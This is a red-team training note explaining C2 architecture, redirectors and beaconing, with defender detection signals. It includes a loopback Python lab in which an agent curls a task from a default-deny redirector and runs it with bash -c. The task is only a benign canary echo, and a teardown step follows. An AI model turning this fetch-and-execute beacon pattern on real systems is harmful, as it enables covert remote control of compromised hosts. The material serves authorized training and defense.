

# 📡 C2 Infrastructure & Redirectors

> [!warning] Authorized adversary emulation only
> Build C2 only for authorized exercises on infrastructure you own, with operator authentication, an audit log, and a kill switch. The lab here is a transparent loopback emulator using a canary task — never a concealment tool against a client outside the agreed scenario. Domain fronting / third-party trust abuse may violate provider terms and is not assumed available.

## Parent Learning Order
C2 Infrastructure & Redirectors -> Operational Security, Anti-Forensics & Teardown

## Start at Zero: How Operators Talk to Their Foothold

Once a red team has a foothold, it needs a reliable, controllable channel to task the agent and receive results — **Command and Control (C2)**. And it needs that channel to be *resilient*: if the client blocks one address, the operation shouldn't collapse. **Redirectors** provide that resilience by separating the public-facing ingress (what the agent talks to) from the real control server (where operators work), so the front can be replaced without exposing or losing the back. This note covers both — the C2 architecture and the redirector/traffic-governance layer — because together they are the *communications backbone* of every red team operation.

The professional framing that distinguishes authorized C2 from criminal C2: **it is transparent and auditable to the white team** — signed/typed tasks, RBAC, short-lived tasking, immutable audit, and a kill switch. You are building a *coordination and measurement* system, not just a covert tunnel.

> [!tip] The analogy, and where it breaks
> A redirector is like a phone switchboard operator between a spy and their handler: the spy only ever calls the switchboard number (the redirector), which quietly patches the call to wherever the handler actually is — so even if the spy's phone is seized, the handler's real location stays hidden and the number can be re-pointed. The analogy breaks on accountability: a real spy's switchboard hides everything, whereas an authorized red team's "switchboard" *logs every call for the white team*, because the goal is a measurable, reviewable exercise, not untraceable concealment.

**Prerequisites:** the Networking domain (HTTP/DNS, proxies), **Red Team Campaign Planning & Initial Access**, and OS/process basics.

## C2 Architecture: The Moving Parts

| Component | Role |
|---|---|
| **Agent / implant** | Runs on the foothold; beacons for tasks, returns results |
| **Control plane** | Where operators queue signed, typed tasks; enforces RBAC/expiry |
| **Listener / channel** | The transport: HTTP(S), DNS, cloud queue, peer-to-peer |
| **Redirector** | Public ingress that forwards allowed traffic to the control plane |
| **Audit log** | Immutable record of every task, result, and cleanup |

Channels trade off on **reliability, auditability, and detectability** (not concealment): **HTTP(S)** blends with web traffic and is easy to audit; **DNS** traverses restrictive egress but is slow and noisy; **cloud queues** look like legitimate SaaS. The **beacon** model (agent *polls* on an interval, "check-in") is the norm because it survives NAT/firewalls and looks like ordinary outbound web requests — the same reason the Networking egress-control leaf treats periodic outbound callbacks as a signal.

## Redirectors and Traffic Governance

A redirector sits between the agent and the control server and **default-denies**, forwarding only traffic that matches policy — source, path, method, rate, certificate — and sending everything else to a decoy or a deny response. This does two jobs: it **hides and protects** the real control server (seize the redirector, lose nothing), and it **governs traffic** (rate limits, TLS, allowlists, health checks, and — critically — an **emergency shutdown**).



Domain/traffic governance means owning the domains, controlling DNS/TLS, honoring provider terms, logging, and — always — a documented **teardown** (next leaf). Techniques like domain fronting or abusing third-party trust may violate provider terms and are not assumed available.

## Failure Modes and Interpretation

- **No redirector.** Pointing agents straight at the control server means one block/seizure ends the operation and exposes your infrastructure — always front it.
- **Beacon interval too aggressive.** A fast, fixed-interval beacon is trivially detected as periodic callback; jitter and realistic intervals matter (and are exactly what defenders hunt).
- **Unaudited tasking.** C2 without signed, logged, RBAC-gated tasks fails the transparency requirement of an authorized exercise — it must be reviewable.
- **Provider-terms violations.** Domain fronting/third-party abuse can breach the hosting provider's terms and legality — don't assume availability; confirm authorization.
- **No kill switch.** An operation you can't halt instantly is unsafe — a kill switch and health monitoring are mandatory.

## Security Implications — the Defender's View

- **C2 detection is high-value:** periodic beaconing (regular-interval outbound connections), anomalous DNS volume/length, connections to young/low-reputation domains, and JA3/TLS fingerprints are the classic signals — the Networking egress-control and DNS-security leaves are the defenses.
- **Egress control breaks C2:** allow-listing required destinations and inspecting DNS/HTTP defeats most channels — the single most effective structural defense.
- **Redirector awareness:** defenders can't see the real C2 behind a redirector, so detection focuses on the *agent's behavior* (beacon pattern) rather than the destination.
- **Threat intel + TLS inspection:** blocking known-bad infrastructure and inspecting encrypted traffic surfaces C2 that blends into HTTPS.

## Authorized Lab: A Transparent Beacon Through a Redirector

> [!info] Runs on one Linux machine with Python — a benign agent beacons to a redirector that forwards to a control server; the control server tasks it with a canary command
> Everything is loopback and logged (transparent, not concealed). Step 5 tears it down.

### Step 1 — A control server that hands out one canary task and logs check-ins

```bash
mkdir -p /tmp/c2-lab && cd /tmp/c2-lab
cat > control.py <<'EOF'
from http.server import BaseHTTPRequestHandler, HTTPServer
TASK=b"echo C2R-CANARY-TASK-EXECUTED"
class H(BaseHTTPRequestHandler):
    def log_message(self,*a): open("/tmp/c2-lab/audit.log","a").write("check-in %s %s\n"%(self.client_address[0],self.path))
    def do_GET(self):
        self.send_response(200); self.end_headers(); self.wfile.write(TASK)   # task the agent
HTTPServer(("127.0.0.1",9101),H).serve_forever()
EOF
python3 control.py &>/dev/null & echo "control plane up on 127.0.0.1:9101 (audited)"
sleep 1
```

```text
control plane up on 127.0.0.1:9101 (audited)
```

### Step 2 — A redirector that default-denies and forwards only the beacon path

```bash
cd /tmp/c2-lab
cat > redirector.py <<'EOF'
from http.server import BaseHTTPRequestHandler, HTTPServer
import urllib.request
CONTROL="http://127.0.0.1:9101"
class H(BaseHTTPRequestHandler):
    def log_message(self,*a): pass
    def do_GET(self):
        if self.path=="/beacon":                       # policy: only this path forwards
            data=urllib.request.urlopen(CONTROL+"/task").read()
            self.send_response(200); self.end_headers(); self.wfile.write(data)
        else:
            self.send_response(404); self.end_headers(); self.wfile.write(b"decoy")  # default-deny
HTTPServer(("127.0.0.1",9100),H).serve_forever()
EOF
python3 redirector.py &>/dev/null & echo "redirector up on 127.0.0.1:9100 (default-deny; forwards /beacon only)"
sleep 1
```

```text
redirector up on 127.0.0.1:9100 (default-deny; forwards /beacon only)
```

### Step 3 — The agent beacons to the REDIRECTOR (never the control server) and runs the task

```bash
cd /tmp/c2-lab
echo "--- non-beacon path is denied (default-deny) ---"
curl -s -o /dev/null -w "GET /random -> HTTP %{http_code}\n" http://127.0.0.1:9100/random
echo "--- agent beacon: fetch task via redirector, execute it ---"
TASK=$(curl -s http://127.0.0.1:9100/beacon)
echo "received task: $TASK"
bash -c "$TASK"     # benign canary command
```

```text
--- non-beacon path is denied (default-deny) ---
GET /random -> HTTP 404
--- agent beacon: fetch task via redirector, execute it ---
received task: echo C2R-CANARY-TASK-EXECUTED
C2R-CANARY-TASK-EXECUTED
```

The agent only ever talked to `127.0.0.1:9100` (the redirector); the real control plane at `:9101` stayed hidden behind it. The redirector denied a non-policy path and forwarded only the beacon — and the control plane logged the check-in.

### Step 4 — Show the transparency (audit log) and the defender's signal

```bash
cd /tmp/c2-lab
echo "--- immutable-style audit (authorized transparency) ---"; cat audit.log
echo "Defender's view: a periodic outbound beacon to a single host = the C2 signal. Fix: egress control + beacon-pattern detection."
```

```text
--- immutable-style audit (authorized transparency) ---
check-in 127.0.0.1 /task
Defender's view: a periodic outbound beacon to a single host = the C2 signal. Fix: egress control + beacon-pattern detection.
```

### Step 5 — Teardown (kill switch)

```bash
pkill -f 'c2-lab/control.py'; pkill -f 'c2-lab/redirector.py'
cd /; rm -rf /tmp/c2-lab; ls -d /tmp/c2-lab 2>&1 | tail -1
```

```text
ls: cannot access '/tmp/c2-lab': No such file or directory
```

**What you should now be able to do:** describe the C2 architecture (agent/control/listener/redirector/audit), explain beaconing and channel trade-offs (reliability/auditability/detectability), build a transparent redirector that default-denies and hides the control plane, and name the beacon-pattern/egress-control defenses.

## Crook → Operator → Root Checkpoint

- **Crook:** Explain what C2 is, what beaconing is, and why a redirector separates public ingress from the real control server.
- **Operator:** Stand up a transparent, audited C2 with a default-deny redirector, and task a canary agent through it.
- **Root:** Compare C2 channels by reliability/auditability/detectability, explain why beacon patterns and egress control are the decisive defenses, and why authorized C2 must be signed/RBAC'd/kill-switched/audited.

---
> 🔼 Up: [[C2 Infrastructure & Operational Security]]
